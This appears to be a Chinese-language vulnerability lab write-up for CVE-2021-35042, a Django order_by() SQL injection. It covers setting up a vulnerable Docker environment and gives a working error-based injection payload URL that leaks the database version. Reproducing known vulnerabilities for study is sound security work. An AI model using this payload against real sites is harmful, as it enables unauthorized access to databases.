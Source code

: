 # Django QuerySet.order_by()函数SQL注入漏洞（CVE-2021-35042）

Django是一个高级的Python Web框架，支持快速开发和简洁实用的设计。

Django在2021年7月1日发布了安全更新，修复了在QuerySet.order_by()函数中存在的SQL注入漏洞。该漏洞影响Django 3.2.5、3.1.13和2.2.24之前的版本。

当用户可以控制传递给order_by()函数的输入时，可以在预期的列位置进行SQL注入攻击。

参考链接：

- <https://www.djangoproject.com/weblog/2021/jul/01/security-releases/>

## 环境搭建

执行如下命令编译并启动一个存在漏洞的Django 3.2.4服务器：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

首先访问`http://your-ip:8000/vuln/`，并添加参数`order=-id`以查看按ID降序排序的数据：

![](1.png)

要利用SQL注入漏洞，使用以下payload修改`order`参数，其中`vuln_collection`是模型名称：

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

SQL错误信息将会显示，通过基于错误的SQL注入泄露数据库信息：

![](2.png)
